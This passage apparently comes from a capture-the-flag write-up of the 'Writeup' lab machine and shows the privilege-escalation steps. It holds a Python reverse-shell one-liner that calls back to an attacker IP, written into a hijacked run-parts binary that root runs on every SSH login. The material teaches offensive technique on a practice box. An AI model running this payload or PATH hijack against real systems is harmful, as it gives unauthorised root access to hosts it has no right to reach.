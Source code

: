 For the executable, it is a script that contains the command that establishes a reverse shell back to our listener.

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

After a long while, I realised that I was not catching any connections from the `Writeup` machine. Is the `run-parts` not getting run ? Lets run `pspy` again to find out why!

{% highlight bash %}
2019/08/28 23:52:51 CMD: UID=0    PID=26053  | sshd: [accepted]
2019/08/28 23:52:51 CMD: UID=0    PID=26054  | sshd: [accepted]  
2019/08/28 23:52:55 CMD: UID=0    PID=26055  | sshd: jkr [priv]  
2019/08/28 23:52:55 CMD: UID=0    PID=26056  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:
/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/08/28 23:52:55 CMD: UID=0    PID=26057  | run-parts --lsbsysinit /etc/update-motd.d 
...
2019/08/28 23:54:27 CMD: UID=0    PID=26076  | sshd: [accepted]
2019/08/28 23:54:27 CMD: UID=0    PID=26077  | sshd: [accepted]  
2019/08/28 23:54:31 CMD: UID=0    PID=26078  | sshd: jkr [priv]  
2019/08/28 23:54:31 CMD: UID=0    PID=26079  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:
/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/08/28 23:54:31 CMD: UID=0    PID=26080  | run-parts --lsbsysinit /etc/update-motd.d 
{% endhighlight %}

By some chance, I noticed that the 2 commands were being run every time someone has logged in via `ssh`! So lets try this again...

# root.txt

On my machine (listener):
{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

On the `Writeup` machine:
{% highlight bash %}
jkr@writeup:/tmp$ echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.con
nect((\"10.10.XXX.XXX\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call
([\"/bin/sh\",\"-i\"]);'" > /usr/local/sbin/run-parts
jkr@writeup:/tmp$ chmod 777 /usr/local/sbin/run-parts
{% endhighlight %}

Again on my machine (on another terminal):
{% highlight bash %}
$ ssh jkr@writeup.htb
jkr@writeup.htb's password:

{% endhighlight %}
